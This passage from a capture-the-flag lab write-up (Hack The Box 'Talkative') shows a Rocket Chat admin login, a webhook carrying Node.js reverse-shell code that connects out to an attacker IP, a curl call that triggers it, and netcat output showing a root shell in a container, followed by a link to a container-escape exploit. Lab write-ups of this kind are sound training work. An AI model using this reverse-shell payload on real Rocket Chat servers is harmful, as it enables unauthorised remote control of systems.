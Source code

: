 Done! Now we can login to Rocket Chat on port 3000 with the credentials `admin:password123`.

### Rocket Chat
We can get the Rocket Chat running going to the Administration panel:
![](talkative/images/image14.png)

Doing a bit of research I find that for this version we can simply create a webhook to spawn a reverse shell. 
- Browse to http://talkative.htb:3000/admin/integrations/new.
- Select "Incoming WebHook".
- Fill the details as below:
![](image15.png)

Script:
```bash
const require = console.log.constructor('return process.mainModule.require')();  
var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []);  
var client = new net.Socket();  
client.connect(1234, "10.10.14.7", function(){  
 client.pipe(sh.stdin);  
 sh.stdout.pipe(client);  
 sh.stderr.pipe(client);  
});
```

Press "Save Changes" and then click on "Integrations" on the left menu. It will load the page again with a "Webhook URL" and "Token".
Copy the "Webhook URL" and curl it! It will trigger the reverse shell:
```bash
$ curl http://talkative.htb:3000/hooks/cnZCiHXmYK2ArCwrc/se2rKhmKkCLSz2z6BBNqip4dhvmofcZkn4ahtKfN3ueEevna
```

## Oh no... another container
We get the Rocket Chat reverse shell and we are inside another container:
```bash
$ rlwrap nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.7] from (UNKNOWN) [10.129.199.0] 49424
$ pwd
/app/bundle/programs/server
$ id
uid=0(root) gid=0(root) groups=0(root)
$ hostname
c150397ccd63
$ hostname -I
172.17.0.3
```


### Shocker to root
We can use this [exploit](http://stealth.openwall.net/xSports/shocker.c) 
